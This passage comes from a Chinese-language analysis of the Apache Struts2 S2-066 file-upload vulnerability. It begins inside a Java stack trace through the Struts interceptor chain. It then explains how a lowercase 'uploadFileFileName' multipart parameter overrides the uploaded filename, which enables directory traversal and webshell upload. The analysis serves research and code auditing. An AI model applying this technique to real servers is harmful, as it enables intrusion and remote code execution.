invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
intercept:57, CoopInterceptor (org.apache.struts2.interceptor)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [20]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
intercept:55, CoepInterceptor (org.apache.struts2.interceptor)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [19]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
doIntercept:143, ConversionErrorInterceptor (com.opensymphony.xwork2.interceptor)
intercept:99, MethodFilterInterceptor (com.opensymphony.xwork2.interceptor)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [18]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
doIntercept:152, ParametersInterceptor (com.opensymphony.xwork2.interceptor)
intercept:99, MethodFilterInterceptor (com.opensymphony.xwork2.interceptor)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [17]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
doIntercept:152, ParametersInterceptor (com.opensymphony.xwork2.interceptor)
intercept:99, MethodFilterInterceptor (com.opensymphony.xwork2.interceptor)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [16]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
intercept:202, StaticParametersInterceptor (com.opensymphony.xwork2.interceptor)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [15]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
intercept:67, MultiselectInterceptor (org.apache.struts2.interceptor)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [14]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
intercept:133, DateTextFieldInterceptor (org.apache.struts2.interceptor)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [13]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
intercept:89, CheckboxInterceptor (org.apache.struts2.interceptor)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [12]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
intercept:320, FileUploadInterceptor (org.apache.struts2.interceptor)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [11]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
intercept:101, ModelDrivenInterceptor (com.opensymphony.xwork2.interceptor)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [10]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
intercept:142, ScopedModelDrivenInterceptor (com.opensymphony.xwork2.interceptor)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [9]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
intercept:161, ChainingInterceptor (com.opensymphony.xwork2.interceptor)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [8]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
doIntercept:175, PrepareInterceptor (com.opensymphony.xwork2.interceptor)
intercept:99, MethodFilterInterceptor (com.opensymphony.xwork2.interceptor)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [7]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
intercept:59, CspInterceptor (org.apache.struts2.interceptor.csp)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [6]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
intercept:140, I18nInterceptor (org.apache.struts2.interceptor)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [5]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
intercept:99, HttpMethodInterceptor (org.apache.struts2.interceptor.httpmethod)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [4]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
intercept:154, ServletConfigInterceptor (org.apache.struts2.interceptor)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [3]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
intercept:229, AliasInterceptor (com.opensymphony.xwork2.interceptor)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [2]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
intercept:196, ExceptionMappingInterceptor (com.opensymphony.xwork2.interceptor)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [1]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
execute:48, StrutsActionProxy (org.apache.struts2.factory)
serviceAction:651, Dispatcher (org.apache.struts2.dispatcher)
executeAction:79, ExecuteOperations (org.apache.struts2.dispatcher)
handleRequest:157, StrutsPrepareAndExecuteFilter (org.apache.struts2.dispatcher.filter)
tryHandleRequest:140, StrutsPrepareAndExecuteFilter (org.apache.struts2.dispatcher.filter)
doFilter:128, StrutsPrepareAndExecuteFilter (org.apache.struts2.dispatcher.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
invoke:199, StandardWrapperValve (org.apache.catalina.core)
invoke:96, StandardContextValve (org.apache.catalina.core)
invoke:543, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:139, StandardHostValve (org.apache.catalina.core)
invoke:81, ErrorReportValve (org.apache.catalina.valves)
invoke:690, AbstractAccessLogValve (org.apache.catalina.valves)
invoke:87, StandardEngineValve (org.apache.catalina.core)
service:343, CoyoteAdapter (org.apache.catalina.connector)
service:615, Http11Processor (org.apache.coyote.http11)
process:65, AbstractProcessorLight (org.apache.coyote)
process:818, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1627, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1149, ThreadPoolExecutor (java.util.concurrent)
run:624, ThreadPoolExecutor$Worker (java.util.concurrent)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:748, Thread (java.lang)
```

## 小结

这个洞涉及到变量覆盖及参数顺序问题，涉及了大小写，大写先 put，小写后 put，而后 put 导致了覆盖。为什么？因为 uploadAction 写法问题，它获取 filename 最终要赋值给类中的成员变量，这就有两种方式了，以下为例：

Content-Disposition: form-data; name="UploadFile"; filename="1.txt"

这一种通过 http mutipart 格式传输文件，上传时先获取到名为 UploadFile 的 file-paramter 再获取该 paramter 的 filename-paramter，从而拿到文件名，这里的操作是 FileUploadInterceptor 完成的，并在后续 set 给 action 的成员变量

Content-Disposition: form-data; name="uploadFileFileName"

这个则是在 struts2 开始时赋值到 httpparamter 中，并在 ParamterInterceptor 中通过 ognl 表达式给成员变量赋值时再一次 set

而因为大小写决定了 treemap（paramters）中的顺序，导致先 set `UploadFile`再 set `uploadFileFileName`会出现覆盖

-   struts2 文件上传时会多一个文件名参数并且可以从请求中获取 value 给其赋值
-   利用 TreeMap 大小写的 tips，大写在前一顺位，小写在后一顺位，导致小写的文件名参数值可以覆盖大写文件名参数值
-   文件上传的 Action 需要按照漏洞格式的写法`String realPath = path + File.separator +uploadFileName;`也就是文件保存路径要拼接`uploadFileName`成员变量

关于漏洞场景

白名单上传，配合这个漏洞达到目录穿越及 webshell 上传，只是 action 需要知道成员变量值是什么。审计时遇到的情况会多一点吧

思考

-   是否能覆盖其他参数？
    
-   其中还有参数名的写法问题，直接引 y4 师傅的结论
    
    > 写法要么是`UploadFileName`要么是`uploadFileName`
    

## Reference

[https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/](https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/)
